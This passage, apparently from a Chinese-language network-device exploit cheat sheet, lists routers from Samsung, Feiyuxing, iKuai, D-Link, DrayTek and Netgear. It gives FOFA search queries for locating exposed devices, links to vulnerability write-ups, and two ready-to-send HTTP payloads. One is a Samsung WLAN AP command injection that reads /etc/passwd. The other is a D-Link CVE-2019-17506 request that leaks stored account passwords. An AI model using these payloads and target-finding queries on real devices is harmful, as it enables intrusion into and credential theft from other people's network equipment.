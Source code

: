 **三星 WLAN AP WEA453e路由器远程命令执行**
- FOFA: title=="Samsung WLAN AP"
- POC | Payload | exp
    ```
    POST /(download)/tmp/a.txt HTTP/1.1

    command1=shell:cat /etc/passwd| dd of=/tmp/a.txt
    ```

### 飞鱼星

**权限绕过信息泄露漏洞**
- FOFA: title="飞鱼星企业级智能上网行为管理系统"
- FOFA: title="飞鱼星家用智能路由"
- [飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞](https://mp.weixin.qq.com/s/Lz08AHM1vrBvLbI2zKVCxg)

### iKuai

**相关文章**
- [爱快流控路由最新版(iKuai8_2.4.4_Build20150604-17_41)固件漏洞挖掘分析之一](https://php.mengsec.com/bugs/wooyun-2015-0122413.html)
- [iKuai8 爱快软路由后台构造页面执行任意Linux命令](http://wooyun.2xss.cc/bug_detail.php?wybug_id=wooyun-2015-0121467)

**SQL注入漏洞**
- [iKuai 流控路由 SQL注入漏洞](http://wiki.peiqi.tech/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/iKuai/iKuai%20%E6%B5%81%E6%8E%A7%E8%B7%AF%E7%94%B1%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html)
- http://wiki.peiqi.tech/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/iKuai/iKuai%20%E6%B5%81%E6%8E%A7%E8%B7%AF%E7%94%B1%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html
- http://wooyun.2xss.cc/bug_detail.php?wybug_id=wooyun-2015-0123161
- http://wooyun.2xss.cc/bug_detail.php?wybug_id=wooyun-2015-0123224
- http://wooyun.2xss.cc/bug_detail.php?wybug_id=wooyun-2016-0188867

### D-Link

**CVE-2019-17506 D-Link Dir-645 getcfg.php 账号密码泄露漏洞**
- POC | Payload | exp
    ```
    POST /getcfg.php HTTP/1.1
    Content-Type: application/x-www-form-urlencoded

    SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
    ```

### DrayTek

**CVE-2020-8515**
- [CVE-2020-8515 漏洞分析与利用](https://www.hayasec.me/2020/03/31/cve-2020-8515/)

### Netgear

**Netgear WNR2000 - Multiple Information Disclosure Vulnerabilities**
- POC | Payload | exp
    - https://www.exploit-db.com/exploits/33177
